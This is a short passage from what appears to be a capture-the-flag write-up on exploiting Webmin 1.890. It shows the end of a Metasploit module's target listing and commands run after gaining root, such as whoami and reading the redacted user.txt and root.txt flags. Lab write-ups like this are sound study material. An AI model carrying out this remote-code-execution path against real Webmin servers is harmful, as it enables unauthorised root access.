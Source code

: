 ```bash
Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)



View the full module info with the info, or info -d command.
```

From here on out, I got remote code execution as root. Here are the commands I ran:

```bash
whoami
root
pwd
/usr/share/webmin
ls /home
dark
ls /home/dark
user.txt
webmin_1.890_all.deb
cat /home/dark/user.txt
REDACTED
ls /root
root.txt
cat /root/root.txt
REDACTED
```
